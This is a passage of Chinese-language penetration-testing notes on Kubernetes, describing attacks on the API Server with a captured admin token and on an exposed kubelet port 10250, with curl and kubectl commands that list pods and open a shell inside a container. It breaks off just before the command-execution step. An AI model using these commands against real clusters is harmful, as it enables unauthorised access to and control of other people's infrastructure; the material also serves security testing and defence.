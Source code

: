 ## kubernetes

kubernetes 简称 k8s，简单理解是拿来自动化部署容器、管理容器的框架。

### API Server 攻击

当我们获取到 admin token 时，可以操作 API Server 来控制集群。

```plain
curl -H "Authorization: Bearer $TOKEN" $APISERVER/api  --insecure
```

也可以把 admin token 放置在~/.kube/config 文件中，然后利用命令行工具进行后续操作：

1.  `kubectl get namespaces`
2.  `kebectl get pods -n {namespaces}`
3.  `kubectl exec -it -n {namespace} {podname} /bin/sh`

### kubelet 10250 端口攻击

10250 端口是 kubelet API 的 HTTPS 端口，该端口提供了 pod 和 node 的信息，如果该端口对外开放，攻击者可以利用公开 api 来获取敏感信息，甚至执行命令。

```plain
curl -k https://host:10250/pods
```

![image-20201210191528031](assets/1700701638-7b21b537a7699f6e22712c0619a6cdfd.png)  
根据上述获取到的信息在容器中执行命令：
